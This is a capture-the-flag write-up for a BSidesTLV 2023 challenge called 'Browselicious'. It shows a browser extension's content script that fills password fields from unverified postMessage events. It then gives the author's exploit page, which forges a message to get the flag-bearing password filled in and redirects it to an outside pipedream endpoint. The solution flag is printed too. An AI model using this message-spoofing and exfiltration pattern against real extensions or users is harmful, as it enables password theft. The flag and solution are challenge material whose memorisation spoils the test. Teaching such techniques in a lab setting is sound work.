 # Browselicious

Category: Misc (though it feels like a web challenge)

We are given a website that allows us to input a url, saying that "their browser extension is coming soon", and a `content.js`

```js
// Listen for messages from the extension
window.addEventListener("message", function (event) {
    // Check if the message is from the extension
    if (event.source === window && event.data.action === "populatePassword") {
        // Find the password input field
        var passwordField = document.querySelector('input[type="password"]');

        // Populate the password field with the specified string
        if (passwordField) {
            passwordField.value = (event.data.url === "http://flag") ? "BSidevTLV2023{TheFlag}" : "MyDefaultPassword";
        }
    }
});

// Send a message to populate the password field on page load
window.addEventListener("load", function () {
    window.postMessage({
        action: "populatePassword",
        url: window.location.href,
        password: "YourPassword" // Replace with the desired password
    }, "*");
});
```

I put two and two together and realized that we needed to make our own website for it to run the extension, dump the password to, and somehow get back the password

However, it has a check for the `event.data.url` to be `http://flag`. What I did though, was send *another* `window.postMessage()` with a forged `url` value to make it override the password field, then, grab the password value and send it to hookbin (now called pipedream, apparently).

This was the source code of the website:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <input type="password" name="" id="pw">
</body>
<script>
    const t = 1000
    function harvest() {
        const pw = document.getElementById('pw');
        window.location.href = "https://<pipedream url>?password=" + pw.value
    }
    function sned() {
        window.postMessage({
            action: "populatePassword",
            url: "http://flag",
            password: "ligma" // Doesnt even need to be here
        }, "*");
        setTimeout(harvest, t)
    }
    setTimeout(sned, t)
</script>
</html>
```

Side note: when testing, simply adding the extension js code into the `<script>` tags helped to "simulate" what the extension would do.

Flag: `BSidevTLV2023{G1v3M3Th3P4ssw0rd}`

